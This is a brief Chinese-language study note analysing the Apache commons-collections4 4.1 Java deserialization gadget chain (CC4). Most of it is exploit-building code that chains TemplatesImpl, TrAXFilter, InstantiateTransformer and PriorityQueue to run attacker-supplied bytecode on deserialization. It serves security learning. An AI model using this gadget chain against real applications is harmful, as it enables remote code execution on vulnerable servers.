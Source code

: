 # CommonsCollections4分析

## 1.环境搭建

```
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.1</version>
</dependency>
```

## 2.调试分析

当 commons-collections4 > 4.0 时，`InvokerTransformer`类，没有实现Serialize接口，导致无法反序列化，只能采取其它方式代替，这里可以使用CC3提到的`InstantiateTransformer#transform(...)`来触发`xx.newInstance(...)`。

构造exp，代码如下：

```java
  TemplatesImpl templates = new TemplatesImpl();
  Class templatesClass = templates.getClass();
  Field name = templatesClass.getDeclaredField("_name");
  name.setAccessible(true);
  name.set(templates,"123");

  Field byteCodes = templatesClass.getDeclaredField("_bytecodes");
  byteCodes.setAccessible(true);
  byte[] code = Files.readAllBytes(Paths.get("/Users/me7eorite/Documents/GitHub/Learning-Demo/JavaStudy/target/classes/com/learning/security/serialization/commons/Exp.class"));
  byteCodes.set(templates,new byte[][]{code});

  Field tfactory = templatesClass.getDeclaredField("_tfactory");
  tfactory.setAccessible(true);
  tfactory.set(templates,new TransformerFactoryImpl());


  ChainedTransformer chainedTransformer = new ChainedTransformer<>( new Transformer[]{
          new ConstantTransformer(TrAXFilter.class),
          new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
  });

  TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer);

  PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
  Class priorityClass = priorityQueue.getClass();
  Field size = priorityClass.getDeclaredField("size");
  size.setAccessible(true);
  size.set(priorityQueue,2);
  byte[] serialize = serialize(priorityQueue);
  unSerialize(serialize);
```

















